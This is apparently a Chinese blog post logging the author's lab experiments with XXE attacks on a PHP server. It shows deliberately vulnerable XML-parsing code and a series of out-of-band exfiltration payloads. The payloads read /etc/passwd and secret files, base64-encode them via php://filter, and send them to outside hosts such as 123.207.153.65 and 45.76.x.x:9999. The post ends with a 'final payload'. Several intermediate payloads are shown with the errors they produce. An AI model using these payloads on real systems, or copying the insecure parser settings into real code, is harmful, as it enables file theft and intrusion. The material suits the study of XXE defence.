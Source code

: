 ## 0x01 XXE 攻击
已发博客： http://localhost:4000/2019/01/20/xxe%E5%AE%9E%E9%AA%8C%E8%B8%A9%E5%9D%91%E8%AE%B0%E5%BD%95/
文章阅读： https://xz.aliyun.com/t/2249  

苦行僧一般的修炼...  

#### 实验

服务器ubuntu xml.php:
```php
libxml_disable_entity_loader (false);
$xmlfile = file_get_contents('php://input');
$dom = new DOMDocument();
$dom->loadXML($xmlfile, LIBXML_NOENT | LIBXML_DTDLOAD); 
$creds = simplexml_import_dom($dom);
```
其中：  
LIBXML_NOENT: 将 XML 中的实体引用 替换 成对应的值
LIBXML_DTDLOAD: 加载 DOCTYPE 中的 DTD 文件


坑... 踩了一个又一个233333...  
**我之前的某个疑惑 ：**    
思考：为什么非要从服务器读取evil.dtd呢？直接在下面调用不可以吗？  

```xml
<?xml version="1.0" encoding="utf-8"?> 
<!DOCTYPE roottag [
<!ENTITY % start "<![CDATA">
<!ENTITY % file SYSTEM "file:///etc/passwd">
<!ENTITY % end "]]>">
<!ENTITY all "%start;%file;%end;">
]> 

<roottag>&all;</roottag>
```
报错：PEReferences(Parameter-entity) forbidden in internal subset in Entity  
原因：In the internal subset of DTD, references to parameter entities are not allowed within markup declarations. You have to use an external DTD[规则](https://www.w3.org/TR/xml/#wfc-PEinInternalSubset) 也就是说在DTD内部子集中，参数实体的引用不允许在标记声明里。在外部DTD中，是可以的    


**又...某个神奇的报错：**   
```xml
evil.dtd:
<!ENTITY % file SYSTEM "file:///var/www/test.txt">
<!ENTITY % int "<!ENTITY % send SYSTEM 'http://123.207.153.65?p=%file;'>">
```
DOMDocument::loadXML(): Entity Value: '%' forbidden except for entities 
原因：报错已经说的很清楚了，%不允许出现在Entity的value中. 所以需要将%进行Unicode编码为`&#37;`（在xml中Unicode编码与字符本身是一样的），

**继续思考...继续踩...**   
思考：为什么不可以直接定义呢？ 
``` 
evil.dtd:
<!ENTITY % send SYSTEM 'http://123.207.153.65?p=%file;'>
```
报错：发现直接声明参数实体send然后引用%send; , 结果就是%file;没有被解析  
原因：所以需要在外面包一个参数实体int的声明，`%int;`引用的时候%file;会被成功解析，然后在%send;就可以成功的将解析`%file;`的内容传出。所以`%int`只是辅助的作用，用于辅助解释send实体内容。

**continue**
经过大概一天的时间，终于知道问题所在，感谢🙏师父，不然我真是要睡的不明不白了23333...  
下面的payload  
```xml
<?xml version="1.0" encoding="utf-8"?> 
<!DOCTYPE roottag [ 
<!ENTITY % dtd SYSTEM "http://45.76.x.x/evil.txt"> 
%dtd;
%int;
%send; 
]> 

evil.txt
<!ENTITY % file SYSTEM "file://etc/var/secret">
<!ENTITY % int "<!ENTITY &#37; send SYSTEM "http://45.76.x.x/:9999?p=%file;">">
```
为什么会出现`loadXML(): Invalid URI: http://x.x.x.x:9999/?p=iitestjfkljal in Entity,`这种报错呢？  
诚如报错信息本身，是无效的URL，我也考虑再三，可是怎么看都没有问题，没有：也没有加xml中的特殊字符，但是关于字符，有可见字符，也有不可见字符，所以这种情况，需要十六进制（xxd或者hexdump -C）显示一下是否有系统自己添加的特殊字符，就像`echo "m3lon" > secret`echo命令本身就是回车显示，所以看似没有问题的URL，其实有一个小小的回车(0a)存在。
```
ubuntu@VM-12-40-ubuntu:~$ hexdump -C /var/www/secret
00000000  6d 33 6c 6f 6e 0a        |m3lon.|
00000006
```
所以最优的方法就是改为下面利用php://filter流  
```
evil.txt
<!ENTITY % file SYSTEM "php://filter/read=convert.base64-encode/resource=file://etc/var/secret">
<!ENTITY % int "<!ENTITY &#37; send SYSTEM "http://45.76.x.x/:9999?p=%file;">">
```

ps：网络上的payload稂莠不齐，经过我这番踩坑，对于以后的各种报错，大致知道是什么问题了  

终极payload奉上：
```xml
<?xml version="1.0" encoding="utf-8"?> 
<!DOCTYPE roottag [ 
<!ENTITY % dtd SYSTEM "http://x.x.x.x/evil.txt"> 
%dtd;%int;%send; ]> 

evil.txt
<!ENTITY % file SYSTEM "php://filter/read=convert.base64-encode/resource=file:///var/www/secret">
<!ENTITY % int "<!ENTITY &#x25; send SYSTEM 'http://x.x.x.x:9999/?p=%file;'>">
```